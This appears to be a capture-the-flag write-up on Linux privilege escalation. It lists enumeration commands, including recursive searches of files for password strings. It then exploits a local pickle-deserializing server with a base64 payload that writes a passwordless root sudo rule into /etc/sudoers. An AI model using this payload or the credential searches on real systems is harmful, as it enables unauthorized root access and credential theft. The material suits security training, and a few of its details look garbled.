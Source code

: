 # 9c550d

## LINUX PRIVILEGE ESCALATION CHECKLIST
### SYSTEM INFORMATION
1. Get OS information:
2. Check the path
3. Check the env variables, any sensitive detail
4. Search for kernel exploits such as DirtyCow
5. Check if the sudo version is vulnerable
6. Dmesg signature verification failed
7. More system enum.



1. Basic system enumeration -> at this point we discover the vulnerability, in this case it is a server local in python that is listening and has a 

uname -a 
hostname 
lscpu 
ls /home 
ls /var/www/html 
ls /var/www/
ps aux | grep root 
netstat -tulpn 
ps -aux | grep root | grep mysql
ifconfig 
find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \;
locate pass | more

https://github.com/gurkylee/Linux-Privilege-Escalation-Basics


curl http://127.0.0.1:8000/
{
    "404": "The API call you tried to make was not defined. Here's a definition of the API to help you get going :)",
    "documentation": {
        "overview": "Python server that deserializes python pickles.",
        "handlers": {
            "/deserialize": {
                "GET": {
                    "usage": "\n    Deserialize a base64 encoded python pickle.\n\n    The system auto-restarted every 15 minutes.\n    ",
                    "outputs": {
                        "format": "JSON (Javascript Serialized Object Notation)",
                        "content_type": "application/json; charset=utf-8",
                        "type": "dict() -> new empty dictionary\ndict(mapping) -> new dictionary initialized from a mapping object's\n    (key, value) pairs\ndict(iterable) -> new dictionary initialized as if via:\n    d = {}\n    for k, v in iterable:\n        d[k] = v\ndict(**kwargs) -> new dictionary initialized with the name=value pairs\n    in the keyword argument list.  For example:  dict(one=1, two=2)"
                    },
                    "inputs": {
                        "data": {
                            "type": "Basic text / string value"
                        }
                    }
                }
            }
        }
    }
}

If we send a pickle to this api, we will be able to execute a command with root accesses.

curl "http://127.0.0.1:8000/deserialize?data=gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDtlY2hvICJyaWNoYXJkX2dpbGwgQUxMPShBTEwpIE5PUEFTU1dEOiBBTEwiID4+IC9ldGMvc3Vkb2Vyc5SFlFKULg=="

curl -G --data-urlencode "data=gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDtlY2hvICJyaWNoYXJkX2dpbGwgQUxMPShBTEwpIE5PUEFTU1dEOiBBTEwiID4+IC9ldGMvc3Vkb2Vyc5SFlFKULg==" http://127.0.0.1:8000/deserialize

curl -G --data-urlencode "data=gASVVgAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjDtlY2hvICJyaWNoYXJkX2dpbGwgQUxMPShBTEwpIE5PUEFTU1dEOiBBTEwiID4+IC9ldGMvc3Vkb2Vyc5SFlFKULg==" http://127.0.0.1:8000/deserialize
 
Now at this point you get root access and if you go to the root you will find the flag:
	flag{9c550d9623e1ebdf2a878b07ac437bff4508663a2e2f69}.jpg

